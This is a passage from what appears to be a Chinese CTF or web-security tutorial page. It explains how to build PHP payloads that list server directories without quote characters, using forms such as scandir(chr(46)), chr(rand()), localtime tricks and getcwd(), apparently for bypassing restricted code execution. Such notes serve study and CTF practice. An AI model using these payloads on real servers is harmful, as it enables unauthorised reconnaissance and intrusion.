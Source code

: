 除上述之外还有一些也能这样，但是是概率事件，就不是确定。

```php
print_r(scandir(chr(46)));
print_r(scandir(chr(rand())));
print_r(scandir(chr(time())));
print_r(scandir(reset(localtime(time()))));
```

其实后面三个都是要看运气的，这里是因为后面三个生成的数字太大了，不存在，所以就输出了这个唯一的路径。

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

对于这个.的构造我们还可以通过数学方法计算来得到46，可以但是应该很难算，而且现在来说限制太大了，我的环境实验不出来，但是还是贴出一些例子大家参考参考

```php
tan(floor(phpversion()));
```

我们还可以通过绝对路径来查看当前文件名

```php
print_r(end(scandir(getcwd())));
print_r(end(scandir(realpath('.'))));
```
